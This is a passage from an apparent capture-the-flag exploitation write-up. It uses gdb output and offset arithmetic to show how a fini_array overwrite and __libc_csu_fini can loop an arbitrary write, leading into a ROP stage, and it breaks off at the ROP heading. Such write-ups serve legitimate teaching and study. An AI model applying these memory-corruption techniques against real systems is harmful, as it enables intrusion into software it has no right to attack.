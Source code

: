 ```
	0x00007ffff7ff51a8 - 0x00007ffff7ff5298 is .dynsym in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff5298 - 0x00007ffff7ff52f6 is .dynstr in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff52f6 - 0x00007ffff7ff530a is .gnu.version in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff5310 - 0x00007ffff7ff5348 is .gnu.version_d in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff5348 - 0x00007ffff7ff5468 is .dynamic in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff5468 - 0x00007ffff7ff57a8 is .rodata in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff57a8 - 0x00007ffff7ff57e4 is .note in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff57e4 - 0x00007ffff7ff5820 is .eh_frame_hdr in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff5820 - 0x00007ffff7ff5968 is .eh_frame in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff5970 - 0x00007ffff7ff5f5a is .text in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff5f5a - 0x00007ffff7ff5fe9 is .altinstructions in system-supplied DSO at 0x7ffff7ff5000
	0x00007ffff7ff5fe9 - 0x00007ffff7ff600b is .altinstr_replacement in system-supplied DSO at 0x7ffff7ff5000
```

We can see that the `fini_array` starts at `0x00007ffff7ff7fb0`, and ends at `0x00007ffff7ff7fc0`, which gives us `0x10` (16) bytes of room, which can fit two 8 byte entries. Since we have two entires, we can run `do_ovwerwrite` twice (the entries are called in reverse order). We can use the first one to call `do_overwrite` and get our write for that iteration, and use the second one to write `__libc_csu_fini` (which is the function that runs the functions in `fini_array`) to the return address, so we can repeat the loop. The return address that we write over will have to be that of `__libc_csu_fini`, since that is the function which will run our `do_overwrite` calls. We can look up the address in gdb:

```
gdb-peda$ b *__libc_csu_fini
Breakpoint 1 at 0x9810
gdb-peda$ r

.	.	.

Breakpoint 1, 0x00007ffff7d53810 in __libc_csu_fini ()
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffde00:
 rip = 0x7ffff7d53810 in __libc_csu_fini; saved rip = 0x7ffff7d59160
 called by frame at 0x7fffffffde50
 Arglist at 0x7fffffffddf0, args: 
 Locals at 0x7fffffffddf0, Previous frame's sp is 0x7fffffffde00
 Saved registers:
  rip at 0x7fffffffddf8
```

In this case, the difference is `0x7fffffffde40 - 0x7fffffffddf8 = 72` (the stack leak this time was `0x7fffffffde40`). When we set up the loop (after we get the PIE and Stack infoleaks), we will want to write the second entry of `fini_array` since the functions are called backwards (so the last entry is called first). Then we will write to the first entry of `fini_array`, and then finally the return address, so we can loop around another write.

### ROP
